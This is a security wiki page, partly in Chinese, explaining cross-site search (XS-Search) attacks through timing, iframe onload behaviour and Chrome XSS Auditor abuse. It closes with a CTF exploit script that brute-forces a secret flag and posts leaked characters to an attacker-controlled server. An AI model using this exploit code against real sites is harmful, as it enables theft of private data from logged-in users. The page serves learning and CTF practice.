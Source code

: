 # XS-Search

**The best resource to learn XS-Search is** [**https://xsleaks.dev/**](https://xsleaks.dev)

## 基于时间的跨站搜索攻击

基于时间的跨站搜索攻击指的是，攻击者可以利用**CSRF 漏洞**使受害者访问一些信息，这些信息只能是该受害者可以访问。然后，通过检查响应请求所需的时间，判断内容是否被正确访问。

试想一种这样的情况：有个网页，各用户在该网页中只能访问属于自己的文件。但是admin用户能访问所有文件。如果你想知道以 ***flag*** 开头的文件内容，该如何做？

**seach by content** 功能中存在 **CSRF** 漏洞，您可以利用该漏洞让 **admin  访问任何页面**。然后，您可以让管理员访问由自己控制的恶意 Web 服务器，该服务器将利用 CSRF ，使受害者**搜索**以“_*flag开头的文件*_”。攻击者将创建一个**循环**，因此它将使受害者**搜索所有可能性**：_flagX_。然后，如果一个搜索比其他搜索花费了**更多时间**，你可以**假设**它是**正确**的，你可以用“_flag{X_”开始一个**新循环**直到拿到flag。

这只是**想法**，但在**现实世界**中，您需要检索内容的查询花费**多得多的时间**，而不是不返回任何内容的查询。

有关更多信息，您可以阅读：

* [https://medium.com/@luanherrera/xs-searching-googles-bug-tracker-to-find-out-vulnerable-source-code-50d8135b7549](https://medium.com/@luanherrera/xs-searching-googles-bug-tracker-to-find-out-vulnerable-source-code-50d8135b7549)
* [https://www.researchgate.net/publication/280738245\_Cross-Site\_Search\_Attacks](https://www.researchgate.net/publication/280738245\_Cross-Site\_Search\_Attacks)

## 利用 Iframe 进行跨站搜索攻击

假设您可以在 Iframe 中的页面插入秘密内容。

您可以使用 **Iframe** 让受害者搜索包含 “_**flag**_” 的文件（基于 CSRF 的前提）。在 Iframe 中，您知道 _**onload 事件**_ 将始终**至少执行一次**。然后，您可以更改 iframe 的中的 **URL**，但仅更改 URL 内的 **hash** 的 **content**。

例如:

1. **URL1**: www.attacker.com/xssearch#try1
2. **URL2**: www.attacker.om/xssearch#try2

如果第一个 URL **成功加载**，那么当更改URL 的 **hash** 部分时，**onload**事件**不会再次触发**。但是**如果**页面在**加载**时出现某种**错误**（包括但不限于, 请求超时, 域名不存在, 被chrome XSS过滤器的block模式屏蔽），那么**onload**事件将被**再次触发**。

然后，您可以**区分**一个**正确**加载的页面或访问时出现**错误**的页面。\
如果您可以在访问正确的内容时使页面错误，并在访问任何内容时使其正确加载，那么您可以循环提取所有信息而无需通过观察响应时间。

### Iframe Chrome XSS Auditor

想象一下**与 Timing 攻击方法**相同的情况，并且您还知道 **admin**正在使用 **Chrome 浏览器**（例如，Chrome-headless）**with Chrome XSS Auditor。**

然后，您可以使用 **iframes** 让受害者在循环中**搜索**包含“_**flagX**_”（beeing X **any**possible **character**）的页面，并且您还向 iframe 内的 URL 添加了一个 **fake 参数**，该参数**包含仅在检索有效内容时才会出现的 javascript 代码**。

例如，如果当您**搜索****content **_**"my file"**_ 时，Web 服务器会响应一个包含**此 **javascript**代码的页面：

```
<script>console.log("you found someting");</script>
```

If you send a query like:

```
www.victim.com/search?q=my+file&fake_xss=<script>console.log("you+found+something");<script>
```

The **Chrome XSS Auditor will block** the page and an **error** will appear.

Then, you can use Chrome XSS Auditor to **launch an error** when a **valid response is sent** from the victim server. Then, with the **Iframe** trick you can **detect** when you have find a **file** that **contains** "_**flag**_" **and the next valid character**.

For more information: [https://www.youtube.com/watch?v=HcrQy0C-hEA](https://www.youtube.com/watch?v=HcrQy0C-hEA)

### Abusing Chrome XSS Auditor to steal tokens

Using the previous technique (with Chrome XSS Auditor) you can **steal chunks of the code returned to a user** (like tokens for example). For more information: [https://portswigger.net/blog/abusing-chromes-xss-auditor-to-steal-tokens](https://portswigger.net/blog/abusing-chromes-xss-auditor-to-steal-tokens)

Please, notice that you will steal information returned to a user and not any code from the web server.

## Custom Detection

In the **fbcft2019** the **challenge**: **secret note keeper** was resolved exploiting a XS-Search.

You could make the **administrator** (a headlessChrome) **visit any page** and there was a **CSRF** vulnerable page that was able to **search files by content**. You also **knew** that the **flag starts** by _**fb{**_ and only the admin had access to it.

It was also important to notice that when you made a **search**, the results of the seach **appeared inside** an **iframe** (if something was found). And **none iframe appeared** if **anything** was found.

So, you could make the admin visit your exploit that will be a **loop of every possible charater** inside _fb{X_ inside an iframe. And using:

```
contentWindow.frames.length != 0
```

You could **check** how **many iframes** where created **inside your iframe**, and **if an**y, then the **character** would be **correct** and you could start extracting the next one.

This is a code example of this from: [https://sectt.github.io/writeups/FBCTF19/secret\_note\_keeper/README](https://sectt.github.io/writeups/FBCTF19/secret\_note\_keeper/README)

```
<!DOCTYPE html>
<html>

<head>
    <title>fbctf secret note keeper</title>
</head>

<body></body>
<script>
var chars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&\'()*+,-./:;<=>?@[\\]^`{|}~ ';
var charLen = chars.length;
var ENDPOINT = "http://challenges.fbctf.com:8082/search?query="
var x = document.createElement('iframe');

function search(leak, charCounter) {
    var curChar = chars[charCounter];
    //Chek if the character is valid
    x.setAttribute("src", 'http://challenges.fbctf.com:8082/search?query=' + leak + curChar);
    document.body.appendChild(x);
    console.log("leak = " + leak + curChar);
    //When the page inside the iframe is loaded
    x.onload = () => {
    //Check the number of iframes inside
        if (x.contentWindow.frames.length != 0) {
        // If 1 or more, then, the character was valid
            fetch('http://myserver/leak?' + escape(leak), {
                method: "POST",
                mode: "no-cors",
                credentials: "include"
            });
            leak += curChar
        }
        search(leak, (charCounter + 1) % chars.length);
    }
}

function exploit() {
    search("fb{", 0);
}

exploit();
</script>

</html>

```



## More information

{% embed url="https://github.com/xsleaks/xsleaks" %}

[https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle](https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle)
